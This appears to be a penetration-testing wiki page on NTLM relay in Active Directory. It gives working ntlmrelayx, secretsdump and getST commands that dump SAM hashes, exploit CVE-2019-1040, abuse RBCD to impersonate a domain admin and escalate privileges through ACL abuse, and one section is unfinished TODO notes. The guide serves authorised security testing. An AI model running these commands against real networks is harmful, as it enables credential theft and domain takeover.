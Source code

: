 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1557.001
---
```


# Relay

## Theory

After successfully [forcing a victim to authenticate](../forced-authentications/) with LM or NTLM to an attacker's server, the attacker can try to relay that authentication to targets of his choosing. Depending on the mitigations in place, he will be able to move laterally and escalate privileges within an Active Directory domain.

## Practice

The NTLM authentication messages are embedded in the packets of application protocols such as SMB, HTTP, MSSQL, SMTP, IMAP. The LM and NTLM authentication protocols are "application protocol-independent". It means one can relay LM or NTLM authentication messages over a certain protocol, say HTTP, over another, say SMB. That is called **cross-protocols LM/NTLM relay**. It also means the relays and attacks possible depend on the application protocol the authentication messages are embedded in.

[ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) \(Python\), [MultiRelay](https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py) \(Python\) and [Inveigh-Relay](https://github.com/Kevin-Robertson/Inveigh) \(Powershell\) are great tools for relaying NTLM authentications. Those tools setup relay clients and relay servers waiting for incoming authentications. Once the servers are up and ready, the tester can initiate a [forced authentication attack](../forced-authentications/).

{% hint style="warning" %}
When combining NTLM relay with Responder for [name poisoning](../forced-authentications/#llmnr-nbt-ns-mdns-name-poisoning), testers need to make sure that Responder's servers are deactivated, otherwise they will interfere with ntlmrelayx ones.

```text
sed -i 's/SMB = On/SMB = Off/g' /PATH/TO/Responder/Responder.conf
sed -i 's/HTTP = On/HTTP = Off/g' /PATH/TO/Responder/Responder.conf
```
{% endhint %}

{% tabs %}
{% tab title="Credentials theft" %}
The following command will try to relay the authentication over SMB and attempt to dump the hashes from the remote target’s SAM if the relayed victim has the right privileges.

```bash
ntlmrelayx.py -t smb://$TARGET
```
{% endtab %}

{% tab title="Credentials theft \(SOCKS\)" %}
The following command will try to relay the authentication over SMB and open a SOCKS proxy.

```bash
ntlmrelayx.py -tf targets.txt -socks
```

The attacker will be able to use secretsdump along with proxychains to dump hashes from the remote target's SAM, SYSTEM and SECURITY.

```bash
proxychains secretsdump.py -no-pass $DOMAIN/$USER@$TARGET
```
{% endtab %}

{% tab title="Kerberos delegation" %}
The following command will 

* enable SMB2 support \(`-smb2support`\)
* try to relay the authentication over LDAPS, attempt to exploit CVE-2019-1040 \(a.k.a. Drop the MIC\) to "unsign" the NTLM messages \(`--remove-mic`\)
* abuse the default value \(10\) of `ms-DS-MachineAccountQuota` to create a domain machine account \(`--add-machine`\)
* and finally, [abuse Resource Based Kerberos Constrained Delegations \(RBCD\)](../abusing-kerberos/kerberos-delegations.md#resource-based-constrained-delegations-rbcd) to gain admin access to the relayed machine \(`--delegate-access`\).

```bash
ntlmrelayx.py -t ldaps://$DC_TARGET -smb2support --remove-mic --add-computer SHUTDOWN --delegate-access
```

If successful, the attacker will then be able to get a service ticket with the created domain machine account for the relayed victim and impersonate any account \(e.g. the domain admin\) on it.

```bash
getST.py -spn host/$RELAYED_VICTIM '$DOMAIN/$NEW_MACHINE_ACCOUNT$:$PASSWORD' -dc-ip $DOMAIN_CONTROLLER_IP -impersonate $USER_TO_IMPERSONATE
export KRB5CCNAME=$USER_TO_IMPERSONATE.ccache
secretsdump.py -k $RELAYED_VICTIM
```

{% hint style="info" %}
The `--add-computer` is optional. The computer account to give delegation rights to can be defined with the `--escalate-user` option.

```bash
ntlmrelayx.py -t ldap://$DC_TARGET -smb2support --remove-mic --escalate-user $ControlledComputerAccount --delegate-access
```
{% endhint %}
{% endtab %}

{% tab title="ACL abuse" %}
{% hint style="info" %}
This technique is usually combined with a [PushSubscription abuse \(a.k.a. PrivExchange\)](../forced-authentications/#pushsubscription-abuse-a-k-a-privexchange) to force an Exchange server to initiate an authentication, relay it to a domain controller and abuse the default high privileges of Exchange servers in AD domains \(`WriteDACL` over domain object, see [Abusing ACEs](../abusing-aces/)\) to escalate a domain user privileges \(`--escalate-user`\).
{% endhint %}

The following command will try to relay the authentication over LDAPS and escalate the privileges of a domain user by adding it to a privileged group \(`--escalate-user`\) if the relayed account has sufficient privileges.

```bash
ntlmrelayx.py -t ldaps://$DOMAIN_CONTROLLER --escalate-user SHUTDOWN
```
{% endtab %}
{% endtabs %}

The ntlmrelayx tool offers many features making it a very valuable asset when pentesting an Active Directory domain:

* It can be combined with mitm6 \(for [DHCPv6 + DNS poisoning](../forced-authentications/#ipv6-dns-poisoning)\) by enabling IPv6 support with the `-6` option.
* It has the ability to open SOCKS proxies for every new session after a successful relayed authentication. This allows testers to exploit those sessions later on with tools like [proxychains](https://github.com/haad/proxychains). This feature can be enabled with the `-socks` option.
* It supports SMB2. It can be enabled with the `-smb2support` option.
* It implements **CVE-2019-1040** with the `--remove-mic` option, usually needed when attempting "**unsigning cross-protocols NTLM relay attacks**" \(e.g. **SMB to LDAP/S\)**.
* It has the ability to attack multiple targets with the `-tf` option instead of `-t`.
* It has the ability to dump domain info and escalate user privileges when possible \(via [ACEs abuses](../abusing-aces/)\) with the `--escalate-user` option.
* It has the ability to operate an [RBCD Kerberos delegation](../abusing-kerberos/kerberos-delegations.md#resource-based-constrained-delegations-rbcd) attack with the `--delegate-access` option.
* It has the ability to relay connections for specific target users.
* It has the ability to relay a single connection \(SMB only for now\) to multiple targets.

{% hint style="info" %}
Thanks to [the recent "multi-relay" feature](https://www.secureauth.com/blog/what-old-new-again-relay-attack), another attacker machine/interface can be added to the targets to combine ntlmrelayx with Responder servers. The attackers will be able capture a ChallengeResponse \(i.e. LM or NTLM hash\) with a custom challenge on an interface/machine, while relaying on another.
{% endhint %}

The targets file used with the `-tf` option can contain the following

```bash
# User filter for SMB only (for now)
smb://DOMAIN\User@192.168.1.101
smb://User@192.168.1.101

# Domain name can be used instead of the IP address
ldaps://someserver.domain.lan
someserver.domain.lan
```

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\) has the ability to generate the list of possible targets for relay to SMB \(hosts with SMB signing disabled\).

```bash
crackmapexec smb --gen-relay-list targets.txt $SUBNET
```

### 🛠️ Drop The MIC \(CVE-2019-1040\)

//TODO

//TODO : downgrade to SMBv1 to bypass signing negotiation and be able to relay without having to unsign for targets that don't enforce signing \(don't use -smb2support\)

//TODO : downgrade to lm/ntlmv1 to bypass other securities ? \(not implemented in impacket, and not even needed since it'd be better to capture and crack the ntlmv1 challengresponse\)

## References

{% embed url="https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html" caption="" %}

{% embed url="https://en.hackndo.com/ntlm-relay/" caption="" %}

{% embed url="https://hunter2.gitbook.io/darthsidious/execution/responder-with-ntlm-relay-and-empire" caption="" %}

{% embed url="https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/" caption="" %}

{% embed url="https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/" caption="" %}

{% embed url="http://davenport.sourceforge.net/ntlm.html" caption="" %}

